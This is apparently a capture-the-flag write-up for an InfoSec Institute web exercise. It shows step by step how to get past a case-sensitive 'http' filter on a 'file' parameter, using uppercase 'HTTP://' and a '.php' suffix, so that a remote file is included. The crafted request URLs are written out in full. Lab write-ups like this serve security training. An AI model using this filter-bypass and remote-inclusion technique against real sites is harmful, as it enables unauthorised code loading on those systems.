 # A4 Insecure Direct Object References

1.	The task is clear! We have to load a `.php` remote file from
	`infosecistitute.com`. By clicking on `Bio` button, we can see that files
	are loaded by using the `file` parameter

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=<FILENAME>

2.	Let's try to load something from `infosecinstitute.com`

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=http://infosecinstitute.com/foo.php

	The application says

		You are trying to add a remote URL.

	It seems that some validation occurs on the value of `file` parameter. Let's
	try withouth `http:`

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=//infosecinstitute.com/foo.php

	The application says

		Invalid file selected.

	Just to be sure, let's try with

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=http

	and

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=foohttpbar

	In both bases, the result is

		You are trying to add a remote URL.

	After some other attempts, seems that `file` parameter's value is validated
	against a `regex` in order to check if `http` string is present.

3.	Now, we have to check if the `regex` is case-sesntirive. Let's try with the
	following URLs

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=HTTP://infosecinstitute.com/foo.php
		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=HTTP
		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=fooHTTPbar

	Relative answers are

		Invalid file selected.
		Invalid file selected.
		Invalid file selected.

	This means that we know now how to write the remote file's URL!!! :-)

4.	In the application's navbar, all the loaded file are named by following a
	shared format

		file<N>.txt

	Let's try with

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=HTTP://infosecinstitute.com/file1.txt

	The application says

		There is something else that you must do.

	In the task's description it's wrote

		[...] it must have the PHP file extension [...]

	Maybe this?

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=HTTP://infosecinstitute.com/file1.txt.php

	Yep!!! :-D

[Go to Ex3](./ex3.md) | [Go to Ex5] (./ex5.md)

